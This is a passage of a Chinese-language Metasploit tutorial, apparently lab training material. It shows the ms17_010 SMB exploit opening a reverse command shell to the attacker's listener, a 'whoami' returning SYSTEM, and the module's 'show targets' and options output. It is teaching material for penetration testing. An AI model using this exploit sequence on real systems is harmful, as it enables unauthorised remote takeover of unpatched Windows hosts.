 ```shell-session
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-13 21:37:21 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter> shell

C:\Windows\system32>
```

我们现在在目标机器上有一个 shell，我们可以与它交互。

#### MSF - 目标交互

```shell-session
C:\Windows\system32> whoami

whoami
nt authority\system
```

这是一个如何`msfconsole`快速提供帮助的快速而肮脏的示例，但却是该框架如何工作的一个很好的示例。只需要一个模块，没有任何`payload`选择，`encoding`或者`pivoting`在会话或作业之间。

## 目标

`Targets`是从那些特定操作系统的版本中获取的唯一操作系统标识符，这些操作系统使选定的漏洞利用模块可以在该特定版本的操作系统上运行。在漏洞利用模块视图中发出的命令`show targets`将显示该特定漏洞利用的所有可用漏洞目标，而在根菜单中发出相同的命令，在任何选定的漏洞利用模块之外，将让我们知道我们需要首先选择一个漏洞利用模块。

#### MSF - 显示目标

 MSF - 显示目标

```shell-session
msf6 > show targets

[-] No exploit module selected.
```

当查看我们之前的漏洞利用模块时，这将是我们看到的：

 MSF - 显示目标

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
```
